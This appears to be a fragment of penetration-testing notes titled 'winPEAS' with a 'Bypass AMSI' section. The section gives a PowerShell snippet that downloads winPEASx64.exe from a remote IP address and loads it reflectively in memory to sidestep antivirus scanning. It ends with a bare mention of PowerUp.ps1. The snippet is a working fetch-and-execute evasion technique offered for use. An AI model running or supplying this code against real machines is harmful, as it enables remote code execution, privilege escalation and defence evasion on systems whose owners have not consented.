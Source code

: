# winPEAS





## Bypass AMSI

```csharp
$ass = (new-object net.webclient).DownloadData('http://192.168.1.10/tools/winPEASx64.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
[WinPEAS.Program]::main("")
```



PowerUp.ps1

